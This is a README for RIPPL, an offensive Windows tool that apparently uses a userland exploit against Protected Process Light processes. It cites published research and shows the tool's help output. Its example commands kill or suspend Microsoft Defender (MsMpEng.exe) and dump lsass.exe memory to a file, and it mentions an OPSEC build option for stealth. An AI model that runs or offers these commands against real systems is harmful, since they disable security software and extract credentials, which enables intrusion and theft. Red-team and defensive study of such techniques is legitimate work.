 # RIPPL
### Manipulating PPL protected processes without using a driver

This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)

Arguments:
  PROC_NAME -> The name of a Process to dump
  PID       -> The ID of a Process to dump
  DUMP_FILE -> The path of the output dump file - valid ONLY with the -D option

Options:
  -v -> (Verbose) Enable verbose mode
  -d -> (Debug) Enable debug mode (implies verbose)
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -v -f 720 out.dmp
```
